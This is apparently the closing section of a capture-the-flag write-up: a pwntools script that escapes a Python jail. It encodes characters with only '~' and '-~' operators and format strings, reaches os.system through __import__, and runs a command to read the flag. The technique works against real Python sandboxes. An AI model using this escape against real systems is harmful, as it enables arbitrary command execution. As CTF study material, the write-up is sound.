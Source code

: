 ### Putting everything together

```py
from pwn import *

# connect to the remote host
p = remote("play.scriptsorcerers.xyz", 10085)

# cmd = input("Command: ")
cmd = "cat /home/chall/flag.txt"

# receive the banner
print(p.recvuntil(b"Enter payload: "))

def encode_number(n: int) -> str:
    """
    Encode an integer n using only ~ and -~ starting from 0.
    """
    if n == 0:
        return "X"  # special case
    parts = []
    if n > 0:
        # n times increment: -~0, -~-~0, ...
        expr = "X"
        for _ in range(n):
            expr = f"-~{expr}"
        return expr
    else:
        # negative numbers using ~
        expr = "X"
        for _ in range(-n):
            expr = f"~{expr}"
        return expr


def str_to_fmt_payload(s: str) -> str:
    """
    Convert a string into a format string payload like:
    '%c%c' % (<encoded ord(c1)>, <encoded ord(c2)>)
    """
    fmt = "%s" % ("%c" * len(s))  # e.g. "%c%c%c"
    encoded_numbers = ", ".join(encode_number(ord(ch)) for ch in s)
    return f"'{fmt}'%({encoded_numbers})"


X_assignment = "(X := ('A' > 'B'))"
get_builtins = f"c(c(c(c, {str_to_fmt_payload('__self__')}), {str_to_fmt_payload('__import__')})({str_to_fmt_payload('os')}), {str_to_fmt_payload('system')})"
command = str_to_fmt_payload(cmd)

payload = f"{X_assignment}, {get_builtins}({command})"

p.sendline(payload)

# read the response
print(p.recvall().decode())
```

